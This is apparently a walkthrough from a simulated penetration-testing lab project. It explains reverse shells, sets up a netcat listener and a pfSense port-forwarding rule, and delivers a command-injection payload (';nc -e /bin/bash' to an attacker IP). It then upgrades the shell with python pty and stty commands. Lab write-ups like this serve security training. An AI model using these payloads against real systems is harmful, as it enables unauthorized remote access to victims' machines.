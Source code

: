 # Stage 3: Exploiting Vulnerability

### What Is A Reverse Shell

A reverse shell is a method attackers use to access a victim's system. The reverse shell is so effective because of the way most firewalls are already configured. Most firewalls default to deny all inbound traffic but allow all outbound traffic. A reverse shell is so effective because the attacker uses an exploit to send out a shell from the victim's system to the attacker's WAN to gain access. This bypasses the firewall because it allows all traffic outbound rules to send a shell to the attacker's WAN. 

### How To Catch A Reverse Shell
To catch a reverse shell you need 3 things: 

- Listener (think: _'thing that catches reverse shell'_)
- Payload (think: _'thing that sends you a reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)


### Listener

Attacker:

```bash
nc -lvp 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-l: instructs netcat to listen for incoming connections on a specified port.

v: enables verbose mode, providing more detailed output about the connection.

p 44554: specifies the port number (44554 in this case) on which netcat should listen.

### Payload

```bash
;nc -e /bin/bash 192.168.122.209 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-e /bin/bash: specifies that netcat should execute a shell (/bin/bash) on the established connection.

192.168.122.209 44554: This specifies the target IP address (192.168.122.209) and port number (44554) to connect to.

It is important to note when executing a payload you must send the shell to the attackers WAN because the firewall rules denys all inbound traffic. This is why we create a port forwarding rule.

### Port Forwarding Rule

Because this a simulated enviroment we have to find the router/firewall. To access the router/firewall we have to understand how networking works. On the Kali box I am attacking from I run "ifconfig" to get my IP address. 

- Attacker IP address is 192.168.2.72
- The subnet is set to 255.255.255.0

In order to be on the same network the first 3 octects have to match,because of the subnet mask. In this case all devices on this network start with 192.168.2.X. Most routers are usually set to be the first or last device on the network.

I put "192.168.2.1" in the firefox browser and it brings up a pfsense GUI. 

I then go to the firewall settings to enable a port forwarding rule on port 44554 to 192.168.2.72 (attacker box).

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/setup.gif)

### Catching A Reverse Shell

With everything set up on the attacking machine, including a listener and the appropriate port forwarding rule, we can initiate the attack. When we trigger the exploit (e.g., clicking a button), the target application will likely enter a processing or loading state. This indicates the payload has been delivered and the application is waiting for a response. Switching to our attacker terminal, we should see a new connection established from the victim's network. By running a system identification command (like "id"), we can gain some insight into the user privileges we might have obtained on the compromised system.

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/payload.gif)

### Upgrading Reverse Shell 
##### (allows tab complete, arrows keys, etc)(ONLY WORKS ON LINUX, use rlwrap in front of listener for windows)

#### Validate python or python3 on the machine
```bash
python -V
python3 -V
```
#### Make sure to use the correct version of python for next command!
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
SHELL=/bin/bash script -q /dev/null (if your machine doesn't have python)
```
#### Next, background the shell to start sending raw input, this bypasses your local interpreter (shell) and sends your keystrokes to the reverse shell (victim)
```
Ctrl + Z (background the shell)
stty raw -echo; fg
reset
```
If it asks what TERM to use, set it to **xterm-256color**, or whatever your attacker machine's $TERM is set to. 

### Validate Terminal Type
```
echo $TERM
export TERM=xterm-256color
echo $TERM
```
You should now be able to clear your terminal and use text editors like nano and vim.

### Validate Shell for User
```
echo $SHELL
export SHELL=/bin/bash
echo $SHELL
```
### Validate size of screen
```
echo $TERM && tput lines && tput cols (run on attacker)
stty rows 38 columns 116 (run on victim)
```
Note: you'll want to run the second command with numbers from the first command, so you're setting the victim's shell size to your local kali machine's shell size. 
This helps prevent wordwrap from distorting the shell and will help other tools like nano and vim work as expected.

Note2: It's possible to have a scenario where your shell and your nano/vim sizes don't align on a target. You can use the 'w' command to validate the size of the terminal through a guessing process.

You should now have a fully functional shell, where even sending a ^C (Ctrl + C, normally intended to stop processes) won't cause the shell to die. 

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/upgrade_reverse_shell.gif)
